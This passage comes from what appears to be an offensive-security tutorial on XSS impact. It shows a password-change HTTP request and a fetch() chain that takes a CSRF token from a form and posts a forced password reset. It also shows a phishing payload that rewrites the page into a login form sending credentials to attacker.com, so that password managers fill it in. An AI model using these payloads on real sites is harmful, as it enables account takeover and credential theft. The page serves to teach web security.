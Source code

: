 {% code title="HTTP Request" %}
```http
POST /api/change_password HTTP/1.1
Host: target.com
Cookie: session=...
X-Custom-Header: anything
Content-Type: application/json
Content-Length: 49

{"password":"hacked","confirm_password":"hacked"}
```
{% endcode %}

doDue to `fetch()` only being a simple function call, you can create a very complex sequence of actions in JavaScript code to execute on the victim, as some actions require some setup. You could create an API token using one request, and then use it in the next to perform some API call. Or a more common example is fetching a CSRF token from some form, and then using that token to POST data if it is protected in that way. As you can see, CSRF tokens do _not_ protect against XSS:

```javascript
fetch("http://target.com/login")  // Request to some form with CSRF token
    .then(res => res.text())
    .then(res => {
        // Extract CSRF token
        const csrf_token = res.match(/<input type="hidden" name="csrf_token" value="(.*)" \/>/)[1];
        // Build password reset form data
        const form = new FormData();
        form.append("csrf_token", csrf_token);
        form.append("password", "hacked");
        form.append("confirm_password", "hacked");

        // Perform another request with leaked token
        fetch("http://target.com/change_password", {
            method: "POST",
            body: form
        });
    });
```

### Phishing (+ Password Managers)

XSS gives you complete control over the JavaScript execution on a page, meaning you can also control everything that is on the page, under the regular target's domain. This can create phishing pages indistinguishable from the real login page because the content can be controlled as well as the domain in the navigation bar. As shown in[#alternative-impact](cross-site-scripting-xss.md#alternative-impact "mention"), just using an `<iframe>` and a `<style>` tag you can take over the whole page with your own. One slight problem password managers will notice is the fact that the form itself is on another domain, meaning saved passwords will not automatically be filled or suggested.&#x20;

If you instead use full JavaScript capabilities and overwrite the HTML on a page, you can create a form on the _real domain_ that password managers will happily fill out and make the victim trust:

{% code title="Payload" %}
```html
document.body.innerHTML = `
    <form action="http://attacker.com/leak" method="post">
        <input type="text" name="username"><br>
        <input type="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
`
```
{% endcode %}

